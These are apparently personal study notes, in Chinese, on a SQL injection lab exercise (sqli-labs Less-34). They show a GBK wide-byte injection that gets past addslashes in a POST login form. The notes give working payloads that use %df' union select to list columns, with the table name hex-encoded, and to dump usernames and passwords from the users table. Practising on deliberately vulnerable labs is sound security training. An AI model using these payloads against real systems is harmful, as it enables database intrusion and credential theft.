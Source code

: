  uname 测试admin'号，报错，被转义

passwd测试admin',报错，被转义

推测为addslashes 宽字节注入





拿burp抓包，

改post



admin'报错，

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'admin' LIMIT 0,1' at line 1
```





再抓包，测回显列。

![](/home/de0xy/Documents/penetration/web/sql 注入/SqlinjecNotes/images/Less-34.png)



测表名，

爆列

```
uname=admin%df' union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273# &passwd=admin&submit=Submit

这里'被转义了，同样要用ascil hex编码
```



爆username,password

```
uname=admin%df' union select 1,(select group_concat(username,password) from security.users) # &passwd=admin&submit=Submit
```



![](/home/de0xy/Documents/penetration/web/sql 注入/SqlinjecNotes/images/Less-34(2).png)
